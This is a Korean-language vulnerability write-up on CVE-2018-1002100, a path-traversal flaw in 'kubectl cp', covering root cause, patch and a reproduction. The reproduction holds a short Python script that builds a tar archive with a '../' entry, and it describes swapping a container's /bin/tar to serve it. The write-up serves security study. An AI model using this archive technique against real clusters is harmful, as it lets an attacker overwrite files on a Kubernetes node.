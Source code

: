 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|     취약한 버전     |           취약점 종류           |                                 취약점 설명                                  |
| :-----------------: | :-----------------------------: | :--------------------------------------------------------------------------: |
| kubernetes: ~v1.9.5 | overwrite arbitrary local files | “kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점 |

---

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다.  
path.join 함수는 입력된 경로들을 순차적으로 탐색했을 때, 나올 수 있는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/pictures/pictures/%EA%B7%B8%EB%A6%BC4.png?raw=true)

path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC3.png?raw=true)

---

# Root Cause 분석

“kubectl cp” 명령어를 수행하면, tar 아카이브 파일을 컨테이너와 호스트가 주고 받는데, 이때 호스트는 kubectl 내에 구성된 cp.go 파일에서 tar 파일을 처리하는 루틴을 구현해 놓았고, 컨테이너에서는 /bin/tar 바이너리를 사용해서 tar 아카이빙을 수행한다.

이때, 호스트에서 전송받은 tar 아카이브 파일이 “../../../../../tmp/foo”와 같이, 상위 디렉토리로 거슬러 올라가도록 만들어 놓으면, 파일을 해제할 때, 이를 그대로 올라가 파일을 덮어쓴다. 즉, path traversal이 일어나는 것이고, /bin/tar 바이너리를 공격자가 임의로 수정하면, “kubectl cp” 명령이 해당 컨테이너를 대상으로 수행될 때, 항상 원하는 결과를 반환할 수 있다. 따라서, 위에서 재연할 때는, 미리 구현한 특정 tar 아카이브를 읽도록 /bin/tar 실행 파일을 수정하였다.

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 파고들어가는 것이 가능하다.

`kubectl cp mongodb:/something ./123`

- prefix: something
- destFile: ./123
- header.Name: 아카이브에 있는 파일/디렉토리 명
- outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 올라가게 된다.

---

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 이를 확인해보면 다음과 같다. 파일명을 자세히 보면, 상위 디렉토리로 계속 거슬러 올라가서 /var/tmp/unexpected 파일을 압축한 것임을 알 수 있다.

![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC5.png?raw=true)

그리고, 컨테이너 내에서의 tar 파일을 지우고, 이를 쉘 스크립트 파일로 “cat sample.tar”을 하도록 만든다면, 쿠버네티스의 관리자가 공격자의 컨테이너를 대상으로 “kubectl cp” 명령어를 쳤을 때, 다음과 같이 공격에 성공할 수 있다.

![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC6.png?raw=true)

---

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```



![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC7.png?raw=true)

---

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, [link](https://nvd.nist.gov/vuln/detail/CVE-2018-1002100)

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, [link](https://hansmi.ch/articles/2018-04-openshift-s2i-security)